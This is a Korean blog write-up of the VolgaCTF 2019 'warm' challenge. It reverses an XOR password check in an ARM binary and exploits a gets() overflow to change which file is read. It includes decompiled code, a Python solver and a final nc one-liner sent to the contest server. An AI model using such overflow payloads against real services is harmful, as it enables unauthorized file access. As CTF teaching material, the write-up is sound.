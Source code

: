 ```yaml
---
layout: post
title: ! "[VolgaCTF] warm write up"
excerpt_separator: <!--more-->
comments : true
tags:
  - VolgaCTF2019
  - pwnable
  - chaem
---
```


ctf가 끝난지 한참 뒤에 쓰는 volga ctf 2019 qual의 warm이라는 pwnable문제이다.  

<!--more-->

일단 `file` 명령어로 보니, ARM 바이너리라는 것을 알 수 있었다.  

```
root@ubuntu:/home/ubuntu/study/ctf/warm# file warm 
warm: ELF 32-bit LSB shared object, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=c549628c0b3841a5fd9a23f0faaf6b51eb858e94, stripped
```

IDA의 hexray기능을 이용을 이용하여 코드를 보니, 이렇게 이쁘게 다 보여주었당...  
다른 writeup을 보다가 `Ghildra(기드라)`라는 툴도 알게되었다. IDA랑은 다르게 오픈소스로 제공되다니, 짱짱 *.* 다음에 꼭 한번 써봐야겠당 ㅎㅎ  
아무튼 본론으로 돌아와서, 단순한 연산을 통해 문자열을 검사하는 것을 알 수 있다.  

```c
signed int __fastcall sub_788(const char *a1)
{
  char *s; // [sp+4h] [bp+4h]

  s = (char *)a1;
  if ( strlen(a1) <= 0xF )
    return 1;
  if ( (unsigned __int8)(*s ^ 0x23) != 0x55
    || (unsigned __int8)(s[1] ^ *s) != 0x4E
    || (unsigned __int8)(s[2] ^ s[1]) != 0x1E
    || (unsigned __int8)(s[3] ^ s[2]) != 0x15
    || (unsigned __int8)(s[4] ^ s[3]) != 0x5E
    || (unsigned __int8)(s[5] ^ s[4]) != 0x1C
    || (unsigned __int8)(s[6] ^ s[5]) != 0x21
    || (unsigned __int8)(s[7] ^ s[6]) != 1
    || (unsigned __int8)(s[8] ^ s[7]) != 0x34
    || (unsigned __int8)(s[9] ^ s[8]) != 7
    || (unsigned __int8)(s[10] ^ s[9]) != 0x35
    || (unsigned __int8)(s[11] ^ s[10]) != 0x11
    || (unsigned __int8)(s[12] ^ s[11]) != 0x37
    || (unsigned __int8)(s[13] ^ s[12]) != 0x3C
    || (unsigned __int8)(s[14] ^ s[13]) != 0x72
    || (unsigned __int8)(s[15] ^ s[14]) != 0x47 )
  {
    return 2;
  }
  return 0;
}
```
이걸 다시 역연산 해보면!  
```python
input =[0x76,0x4e, 0x1e, 0x15, 0x5e, 0x1c, 0x21, 1, 0x34, 7, 0x35, 0x11, 0x37, 0x3c, 0x72, 0x47]
pw = chr(input[0])
result = input[0]
for i in range(1,len(input)):
    val = result ^ input[i]
    pw=pw+chr(val)
    result = val

print(pw)
```
이런 문자열이 나오는 것을 알 수 있다!  
```
root@ubuntu:/home/ubuntu/study/ctf/warm# python test.py 
v8&3mqPQebWFqM?x
```
지금은 서버가 닫혀있지만, 위의 값을 입력하면 `Seek file with something more sacred!`라는 문구를 출력해준다. 여기서 `scared`가 힌트가 된다.  

```
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?x
Seek file with something more sacred!
```

우선 다음 함수를 보면, gets()함수를 사용함으로써, overflow가 발생하는 것을 알 수 있다.  

```c
int sub_9EC()
{
  _IO_FILE *fp; // [sp+Ch] [bp+Ch]
  int c; // [sp+10h] [bp+10h]
  int v3; // [sp+14h] [bp+14h]
  int v4; // [sp+78h] [bp+78h]

  setvbuf((FILE *)stdout, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      sub_8F0((char *)&v4);
      puts("Hi there! I've been waiting for your password!");
      gets((char *)&v3);
      if ( !sub_788((const char *)&v3) )
        break;
      sub_978(1, 0);
    }
    fp = (_IO_FILE *)fopen((const char *)&v4, "rb");
    if ( fp )
      break;
    sub_978(2, &v4);
  }
  while ( 1 )
  {
    c = IO_getc(fp);
    if ( c == -1 )
      break;
    putchar(c);
  }
  fclose((FILE *)fp);
  return 0;
}
```

buffer는 100 bytes로, `v8&3mqPQebWFqM?x` 16 bytes를 포함하여 overflow 시켜준다.  

```c
char *__fastcall sub_8F0(char *a1)
{
  char *result; // r0
  char *dest; // [sp+4h] [bp+4h]
  const char *src; // [sp+Ch] [bp+Ch]
  int v4; // [sp+10h] [bp+10h]
  char v5; // [sp+14h] [bp+14h]
  int v6; // [sp+18h] [bp+18h]

  dest = a1;
  strcpy(&v6, "FLAG_FILE");
  src = getenv((const char *)&v6);
  v4 = *(_DWORD *)"flag";
  v5 = aFlag[4];
  if ( src )
    result = strcpy(dest, src);
  else
    result = strcpy(dest, (const char *)&v4);
  return result;
}
```

그리고 마지막에 파일 이름을 써주면 flag를 얻을 수 있게 된다.  

```
python -c "print('v8&3mqPQebWFqM?x'+'A'*84+'sacred');" | nc warm.q.2019.volgactf.ru 443 
```
